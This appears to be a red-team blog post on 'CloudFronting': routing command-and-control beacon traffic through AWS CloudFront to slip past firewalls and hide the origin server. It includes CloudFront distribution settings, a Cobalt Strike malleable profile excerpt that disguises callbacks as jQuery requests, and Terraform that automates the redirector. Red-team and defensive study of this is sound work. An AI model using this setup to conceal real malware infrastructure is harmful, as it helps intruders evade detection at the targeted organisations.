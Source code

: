 # Creative C2 Obfuscation - CloudFronting Through Firewalls and Hiding in Plain PCAP

## What is CloudFronting:


AWS CloudFront enhances obfuscation of Command and Control (C2) Infrastructure by seamlessly integrating beacon callbacks into Content Delivery Network (CDN) traffic. A CDN functions as a network of strategically distributed proxy servers across various locations, ensuring optimal performance and availability while delivering data to clients. Consequently, CloudFronting poses a significant challenge for defensive security analysts, as it evades suspicion and defies blacklisting efforts. Notably, CloudFront, the integrated CDN offered by AWS, stands out as an ideal choice due to its scalability, advanced features, and the convenience it offers red teamers by minimizing the need to leave the AWS Console for infrastructure configuration changes. 

## Setup and Configuration:

![Create Distro](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/llp52x56cmlsc4jgrvgy.jpg)

To configure CloudFront to point to the real C2 domain _Origin Domain Name_, create a CloudFront Distribution with the following settings:

- Allow HTTP and HTTPS
- Support TLSv1
- Allow All HTTP Methods – (GET, HEAD, OPTIONS, POST..)
- Use Legacy Cache Settings
- Forward All Headers
- Forward All Cookies
- Forward All Query Strings

For proper redirection, all HTTP and HTTPS traffic including lower TLS versions must be forwarded to the C2 domain.

![Options](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/wxlxtkvy746vnd4sl99u.png)

After selecting the appropriate settings for the domain, create the distribution and wait for the CloudFront domain to be provisioned. The domains can be disabled until needed. With these resources, there is no need for domain categorization, traffic will blend into the target network, CloudFront is whitelisted by most web filtering applications, and the source IP of the C2 domain is hidden, mitigating the chance of the infrastructure being burned.

![Distro](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/bm4c9jg763dbelolfgg9.jpg)

## C2 Profile:

To effectively utilize this technique, your malware, implants, and payloads need to call back to the CloudFront domain. For example, if you are using Cobalt Strike, copy the distribution domain into your malleable profile; you can add this in the `host` header. Below is an example from threatexpress' jquery-c2.4.7 profile:


```
http-post {

    set uri "/jquery-3.3.2.min.js";
    set verb "POST";

    client {

        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Host" "dgwduytwaq0ei.cloudfront.net";
        header "Referer" "http://code.jquery.com/";
        header "Accept-Encoding" "gzip, deflate";
       
        id {
            mask;       
            base64url;
            parameter "__cfduid";            
        }
              
        output {
            mask;
            base64url;
            print;
        }
    }
```

## Automating Deployments with Terraform:

Terraform is an open-source infrastructure as code (IaC) tool that enables users to define and provision infrastructure resources in a declarative manner. It allows organizations to automate the creation, management, and versioning of their infrastructure using a simple and consistent workflow. Terraform allows red teams to define and provision the necessary infrastructure resources on demand, ensuring consistency and repeatability. By leveraging Terraform, red teams can easily spin up and tear down environments, deploy and configure systems, and simulate attack scenarios in a controlled manner. This helps red teams streamline their operations, save time, and maintain a standardized approach to infrastructure deployment during red teaming exercises.

To automate the deployment of CloudFront distributions for each C2 domain, you can utilize the following Terraform:

```hcl
# Create CloudFront Distribution for EC2 Instances

resource "aws_cloudfront_distribution" "redirector-cf" {
  origin {
    domain_name = "rosesecurity.live"
    origin_id   = "rosesecurity.live"
    custom_origin_config {
      http_port = 80
      https_port = 443
      origin_protocol_policy = "match-viewer"
      origin_ssl_protocols = ["TLSv1"]
    }
  }
  http_version        = "http1.1"
  enabled             = true
  # default_root_object = "/"


  default_cache_behavior {
    allowed_methods  = ["DELETE", "GET", "HEAD", "OPTIONS", "PATCH", "POST", "PUT"]
    cached_methods   = ["GET", "HEAD"]
    target_origin_id = "rosesecurity.live"
    compress         = false

    forwarded_values {
      query_string = true
      headers      = ["*"]

      cookies {
        forward = "all"
      }
    }


    viewer_protocol_policy = "allow-all"
    min_ttl                = 0
    default_ttl            = 3600
    max_ttl                = 86400
  }

    restrictions {
      geo_restriction {
        restriction_type = "none"
	locations = []
      }
    }

  tags = {
    Environment = "Production"
    Owner        = "RedTeam"
  }

  viewer_certificate {
    cloudfront_default_certificate = true
  }
}
```

Save the HCL file into `main.tf` and initialize the Terraform environment before applying the changes.

```
terraform init
terraform apply
```

I hope this simple demonstration was useful and you learned something new. There are many creative ways to evade defensive controls, and if you would like to learn more, feel free to check out my GitHub at: https://github.com/RoseSecurity
